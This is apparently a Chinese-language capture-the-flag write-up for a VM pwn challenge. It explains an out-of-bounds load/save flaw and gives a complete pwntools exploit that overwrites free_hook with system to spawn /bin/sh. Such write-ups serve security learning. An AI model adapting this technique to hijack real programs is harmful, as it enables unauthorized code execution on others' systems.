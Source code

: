 ## WP

题目是一个功能简单的vm，一共以下几种指令

```python
push = 0x2A3D
pop  = 0xFFFF28
add  = 0x0
sub  = 0x11111
mul  = 0xABCEF
div  = 0x514
load = -1
save = 0x10101010
```

漏洞在于load和save没有对offset进行检查，导致vm stack越界访问和写入，注意到题目是静态编译，并且system也被编译进来了，所以free_hook和system等地址都已知

由于stack->data指向堆，所以需要先利用load将堆地址读入vm stack中，然后和bss上的free_hook进行sub操作，再进行div 4就可以获得堆地址和free_hook之间的偏移，将system地址写入之后，后面触发free(input)的地方就可以执行system("/bin/sh")了

exp:

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1
binary_name = 'bin'

if local:
	cn = process('./'+binary_name)
else:
	cn = remote('',)

ru = lambda x : cn.recvuntil(x)
sn = lambda x : cn.send(x)
rl = lambda   : cn.recvline()
sl = lambda x : cn.sendline(x)
rv = lambda x : cn.recv(x)
sa = lambda a,b : cn.sendafter(a,b)
sla = lambda a,b : cn.sendlineafter(a,b)


bin = ELF('./'+binary_name,checksec=False)


def z(a=''):
	if local:
		gdb.attach(cn,a)
		if a == '':
			raw_input()
	else:
		pass

push = 0x2A3D
pop  = 0xFFFF28
add  = 0x0
sub  = 0x11111
mul  = 0xABCEF
div  = 0x514
load = -1
save = 0x10101010

system_addr = 0x8051c60
free_hook = 0x80e09f0
def create(d):
    return " ".join([str(x) for x in d])

heap_offset = (0x110-8) // 4
code = create([push,push,push,push,load,push,sub,div,save])
data = create(["/bin/sh",system_addr,4,heap_offset,free_hook])
cn.sendline(code)
cn.sendline(data)
cn.interactive()

```

